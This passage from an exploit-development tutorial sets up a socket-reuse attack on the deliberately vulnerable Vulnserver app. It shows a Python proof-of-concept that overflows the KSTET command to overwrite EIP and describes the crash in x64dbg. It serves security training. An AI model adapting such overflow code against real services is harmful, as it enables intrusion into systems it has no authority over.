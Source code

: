 Tools Required to Follow Along
------------------------------
For the demonstration in this post, I'll be using the 32-bit version of [x64dbg](https://x64dbg.com) running on Windows 10. The same steps will most likely work in most other debuggers too, but x64dbg is my program of choice!

Creating the Initial Exploit
----------------------------
Now that you're hopefully caught up on how socket programming works, let's dive in. To demonstrate this concept, we'll be using the Vulnserver application developed by Stephen Bradshaw which you can grab on GitHub from: [https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)

Rather than explaining the initial overflow, we'll start off with the proof of concept below, which will overwrite EIP with `\x42\x42\x42\x42`. We will then build upon this through this post:

```python
import os
import socket
import sys

host = '10.2.0.129'
port = 9999

buffer =  'KSTET '
buffer += '\x41' * 70
buffer += '\x42' * 4
buffer += '\x43' * 500

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

s.recv(1024)
s.send(buffer)

s.close()
```

If we load `vulnserver.exe` up in x64dbg and fire the exploit at it as is, we will be able to see that at the point of crash, the stack pointer [`$esp`] is pointing to the area that directly follows the EIP overwrite.

![](/assets/images/2019-06-21-using-socket-reuse-to-exploit-vulnserver/0001.jpg)
